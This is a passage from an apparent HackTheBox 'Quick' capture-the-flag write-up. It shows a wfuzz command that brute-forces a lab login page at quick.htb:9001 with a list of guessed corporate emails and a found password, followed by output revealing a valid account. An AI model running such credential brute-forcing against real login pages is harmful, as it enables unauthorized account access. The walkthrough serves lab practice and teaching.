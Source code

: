 Also We got their Comapnies and their countries

![Quick](/assets/img/post/hackthebox/quick/5.png)

Make a list of all possible emails keeping in mind they are corporations

You can try manually one bye one or just use wfuzz to bruteforce the login

```bash
 ~/htb/boxes/Quick/webwuic >> wfuzz -w user.lst -X POST -u 'http://quick.htb:9001/login.php' -d 'email=FUZZ&password=Quick4cc3$$' --hc 200 -c

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://quick.htb:9001/login.php
Total requests: 19

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                              
===================================================================

000000013:   302        0 L      0 W      0 Ch        "elisa@wink.co.uk"                                                                                   

Total time: 1.544700
Processed Requests: 19
Filtered Requests: 18
Requests/sec.: 12.30011
```
Hurray We got email and password Now we can login to quick.htb:9001/login.php
